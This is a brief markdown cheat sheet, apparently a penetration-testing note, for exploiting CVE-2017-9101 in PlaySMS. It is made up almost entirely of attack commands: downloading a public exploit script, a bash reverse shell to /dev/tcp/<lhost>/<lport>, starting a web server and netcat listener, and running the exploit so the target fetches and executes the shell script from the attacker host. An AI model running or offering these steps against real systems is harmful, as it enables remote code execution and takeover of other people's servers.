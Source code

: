 ### Download
```
wget https://raw.githubusercontent.com/jasperla/CVE-2017-9101/master/playsmshell.py -O playsmshell.py
```

### Prepare shell.sh and insert:
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### Start listener and webserver
```
sudo python3 -m http.server 80
nc -lnvp <lport>
```

### Exploit
```
python3 playsmshell.py --username <user> --password <password> --url http://<rhost>/playsms --command "wget <lhost>/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh"
```

### References
https://www.exploit-db.com/exploits/42044  

